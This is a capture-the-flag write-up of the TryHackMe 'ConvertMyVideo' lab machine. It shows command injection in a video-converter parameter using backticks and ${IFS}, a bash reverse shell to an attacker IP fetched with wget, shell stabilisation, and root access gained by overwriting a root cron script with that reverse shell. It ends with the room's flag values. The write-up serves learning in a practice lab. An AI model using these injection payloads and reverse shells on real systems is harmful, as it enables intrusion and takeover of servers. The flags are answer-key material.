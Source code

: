 ```yaml
---
title: TryHackMe - ConvertMyVideo Writeup
description: My writeup on ConvertMyVideo box.
categories:
 - tryhackme
tags: tryhackme
---
```


Hi all, let's pwn this!

You can find the machine there > [ConvertMyVideo](https://tryhackme.com/room/convertmyvideo){:target="_blank"}

As always let's start with a nmap scan.

```bash
$ ip=10.10.198.96
$ nmap -sC -sV -oN nmap.txt $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-20 15:56 EEST
Nmap scan report for 10.10.198.96 (10.10.198.96)
Host is up (0.23s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 65:1b:fc:74:10:39:df:dd:d0:2d:f0:53:1c:eb:6d:ec (RSA)
|   256 c4:28:04:a5:c3:b9:6a:95:5a:4d:7a:6e:46:e2:14:db (ECDSA)
|_  256 ba:07:bb:cd:42:4a:f2:93:d1:05:d0:b3:4c:b1:d9:b1 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's enumerate the `http` service. When we visit the website we can see this : 

![](https://i.ibb.co/SQNyp1L/Screenshot-2.png)

Let's capture the request and send it to repeater.

![](https://i.ibb.co/cQYBv5x/Screenshot-3.png)

We can try for command injection on parameter now, my first try was this :

```
yt_url=`cat /etc/passwd`
```

but i got this error :

```
{"status":2,"errors":"sh: 1: Syntax error: EOF in backquote substitution\n","url_orginal":"`cat","output":"","result_url":"\/tmp\/downloads\/5ec52bb9357de.mp3"}
```

Then i tried to bypass the `space` function with `${IFS}`

`IFS = Internal Field Separator`

```
yt_url=`cat${IFS}/etc/passwd`
```

Result :

```
Could not send HEAD request to root:x:0:0:root:\/root:\/bin\/bash:
```

Bingoo! ;) Let's spawn shell now. The way i found to get a shell is to create a reverse shell on my machine and `wget` it to target box.

```
$ touch shell.sh
$ echo "bash -i >& /dev/tcp/$your_ip/5555 0>&1" > shell.sh
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Then :

```
yt_url=`wget${IFS}$your_ip/shell.sh`
```

```
yt_url=`bash${IFS}shell.sh`
```

We have shell! Let's make it fully interactive.

```
$ nc -lvp 5555
listening on [any] 5555 ...
www-data@dmv:/var/www/html$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@dmv:/var/www/html$ ^Z (ctrl + z)
[1]+  Stopped                 nc -lvp 5555
$ stty raw -echo
execute "fg"
www-data@dmv:/var/www/html$ 
```

Now privilege escalation is pretty easy, a simple cron job exploitation, we can detect the cron job with an awesome tool : [pspy](https://github.com/DominicBreuker/pspy){:target="_blank"}

Download the binary & wget to `/tmp` on target's box.

Let's execute it :

```bash
www-data@dmv:/tmp$ chmod +x pspy64
www-data@dmv:/tmp$ ./pspy64 -p -i 1000
```

We can see this :

```bash
CMD: UID=0    PID=1822   | bash /var/www/html/tmp/clean.sh
```

This file runs as root, let's add our reverse shell in and get a root shell!

```bash
www-data@dmv:/tmp$ echo "" /var/www/html/tmp/clean.sh
www-data@dmv:/tmp$ echo "bash -i >& /dev/tcp/$your_ip/5555 0>&1" > /var/www/html/tmp/clean.sh    
www-data@dmv:/tmp$ cat /var/www/html/tmp/clean.sh
bash -i >& /dev/tcp/$your_ip/5555 0>&1
```

And after 1 minute..

```bash
$ nc -lvp 5555
listening on [any] 5555 ...
root@dmv:/var/www/html/tmp# whoami; id
whoami; id
root
uid=0(root) gid=0(root) groups=0(root)
```

Let's read the flags now.

```bash
root@dmv:/var/www/html/tmp# cat /root/root.txt
flag{d9b368018e912b541a4eb68399c5e94a}
root@dmv:/var/www/html/tmp# cat /var/www/html/admin/flag.txt
flag{0d8486a0c0c42503bb60ac77f4046ed7}
```

Easy one, See you!

